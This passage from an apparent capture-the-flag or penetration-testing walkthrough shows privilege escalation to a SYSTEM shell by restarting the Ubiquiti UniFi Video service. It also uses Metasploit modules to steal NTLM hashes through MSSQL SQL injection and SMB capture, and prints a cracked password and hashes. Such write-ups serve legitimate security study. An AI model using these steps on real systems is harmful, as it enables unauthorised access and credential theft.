![](https://lh3.googleusercontent.com/zQvdppn-7eLQDZtRPw-bOwbXA3ymrg2T9RDlw5mk6o-EC5TOJeqkOgZKlJoWEQOcFTkfHN_sNxxFJRqVfmeWbGYhnkMljCeRaKART6IrPLkbreiRY1FjpfqG2mBveDJnSKHxZQ5F141bVnIailqPn7butx4cQ7W45ZlP9s6wj-lx7xDdh8Pp2EV5GZh8nE7sfurH4VByFEB45IaUfMQVUBBMXcnT5jRUC0mN666WuT1qYNj1NsvkHlQDC7RshDgOyJ_TYg_zpbMw0sq7UPFwfSU1DFeFIFh3kI3yRon512tU5g8NVIS81X_h4P8cLhDHZz2RP6DSP-vxNJbZPHvlWZfXakVb7yRp6R41h9jhby7ElM2kPkhukhjcqaZQVg-qqqpI_cdeT0yK7YvDIeNRJQrX_2m04xt5jJuR0m_p_VWz4fXhR85dds2muRfOO6824YvS3yV5_x3g9lKJICpnOENj4ehEcxuAGQ28wKV2YDFW2DcZ7vKFRDJVWJhTpEbcxqgZA1sf6skWAcW6VCGS5c_mMu65nQvJVcrj-cEMAjpp9QXjmhppTNvSAncaGeF89preanPTByj9SN-ZNAWNVdp5Xe22I9-ZQYvzCdPNkfYkzrTPqLEcPgGYhMJ7u92f7jYYbqLjm6B4yJCUY_-v85ZDMFJ102cLgRVKt4WjN-fUvYXXU3_YNfs=w971-h449-no)

7. We type Stop-Service "Ubiquiti Unifi Video" to shutdown the program
8. Then we use Start-Service Ubiquiti Unifi Video" to restart the program

![](https://lh3.googleusercontent.com/e_jQuZQtLd8fGFwSw4BKTjoefY7uhIGXRzxT40gNwriQOj3zLJNmMmTaDUp3hJILAcJQRK7DjwtRa-kJonN1G5AquicE6VvNW18TVoEvnW7xdC22aL2dJwQn22Y3-hp68hEV1E6_7mKYMHWmlmcBi-hBFuLyPoHpyiT8jWjpnsrKUxs5F7d6nhZvKseP5NGy8gTL3t45iNa9SIzeW22RN2x2Rxfprod8W6jy0vDi8hPT3UGjYZEzwsJRfofCrtD2_IR5lavqcxd4KP1Z-HCEH_s4EyM2DW8HD53JUqEJRh_ymsV5OFfUj7bc5hzKNxPICp1XKa3AXMvETGxsfUzWfdxTJJ2cS0MXpmhE4-n_R8X4YnbevkKhR7-Wbgl1VL9DRk1-mRufs40382MZoVu3CL0edvxuq-uEPbSRRwJBSYWktgCILK61k1Ax0_le4pEu_5LhTVBWZqpv1CCclYKWM0X0cz7pxAEzH1wZsCtmDp_agRTiPavEafOnMOOrr3rZAOcBDoLHlWHmeyBtx9wreU3_wUCR11LFhTengnQbkYo1Tli7_9OsS5tMxheIlAwwPjxFuZUJt8TcjGu6qCYGz6DbhJfgtXxkK5oa_212xuRTEPvYNJifsRFFYfQc1SGdAZQPLJdHBL_Kehl2aRp7VDFiFIce9xoOWRoMbEiyrzIWAkWTk4ji0zQ=w508-h207-no)

9. Finally we obtain a "NT Authority\system" shell

![](https://lh3.googleusercontent.com/zbJWz5ivbVgTGKaz2uTscNU4Pe0s4rdS9OThnsh7fMy1n9JjPgt2CGLyjZgCG9J1oW0wywx8fRtxX4iLrmBN9Ip-h1B8HlqQ0O5HiYcNMWquzDXAXJPkwyj_2EzcZGRf4rWEhoV77e9sPnqWZRlyVGxRSUF89Dc0K5HpG6BS3TZu93jJdrkw6SM5nD59vKMib0ixb4qVusSoI4Tgj2vrWNjAMxHQgUJw5phgmv7_YaIpow1b5rRcFppTCuzRNRHEtJjUclP01gvtDg44Rb_VvZ7VKbiniBC2Zmqwvpu090kXWkSXqn3SIWEsgF-Fy9I9NIvVAogDzyrnudI3ysvjxogmktRTK5o4icKm2_MDMzF-J5rgPnm93hH7zL981gPKiboM9c5UTd14bdH3A404ayyC2qhjc0-FOMN1ilD8wVdUF4Wqf8dwtd-mVJbVow-fFCsIJhV9Za_IxG20Rv5GYp3iwF2zFKN4kEpPTOKx7UZCQ9El4AyYtOcQoQAupJdmr9REHW7qVvUQeCft4wzkI2gIY-z0a6das_qjTkXVhz8KNDsVxoS-ptI5oJ6Ln-sEhWqOWdUG3W3ld1n0wrPBXBC4PZYIdzPlLgAeRRhBe7sKiRviXI8I9acj8o9CtonUGJUXCoQKrbb3uiSYOhcynGc5G5eL54lZIaX2HaKR4ntM7ylcj6fc4r8=w613-h439-no)

# Exploitation Method 2 MSF
1. Microsoft SQL Server SQLi NTLM Stealer
```ruby
use auxiliary/admin/mssql/mssql_ntlm_stealer_sqli
```
![](https://lh3.googleusercontent.com/Gx17xEE7q3YHkxfK7ZrYVBYW4567qoFyqHuIsg6gF-YKyN35KsitOTmB6YVo1Mb1Xyjy9wvIwR180z-b19EqVDfay6yInCOFkXzgeb3Y8xxS-hfVa1fLKVVSIwfeTROv-bMYmgvlcbNndai0SZleeKCUB1iHoC1xJoe-rcN9YdlFjn3EIABwot0upuH4LxJt-t5dfDJdorPVH71hsl0BeYOZt4gHssoArCv-Q3m3Xwg_sBOV-WtftfGb_8wvT_hVCMvDy6oUOFdHW9SQjB3ucAOcEVhuvrWw1j7XOtFRpqb6W4LLRvC0oaswFDSFd0IMI6x2wpmn5Yr_1iipSmlFHC4UzWDax6cdW55YGmCQLyb97Q4miWBmD9E6rUYLjoFA90PD7bVrUhIDkRQdSKJq7BnPFj6YaIlt2m9k9yw6Dwyyychlmml0FB8oZD0MjImafWLUcms-zVNc9_P1A3l8-eqDAryzVNoQfiHYOchkKLHYXjutmfI4aMRldbBvOw6LWRntlqvW_gqqpGdGUWbhYpQmU6xVnAXQM10Fn59w8eHbylbL4mT2XxFRmFNVCrEKMkiyE4uZM8AobJWZoEPQWYA18M35Yt5EY2iOMAXb8fTGnRdj077pJZVftiPS7PLFqjzd5iV27izi_NqYYnyf7dfAwzCkL3zz1Gj8iusnhqGU4YGeef7hThk=w698-h475-no)

2. SMB CAPTURE MODULE
```ruby
use auxiliary/server/capture/smb
```
3. USE JOHN TO CRACK THE HASHED PASSWORDS IN FORMAT:netntlmv2
```ruby
Stacy : xNnWo6272k7x 
```
```ruby
Root  CF559C6C121F683BF3E56891E80641B1 
User  10C1C275385280605E96ADD808C1A0AD 
```

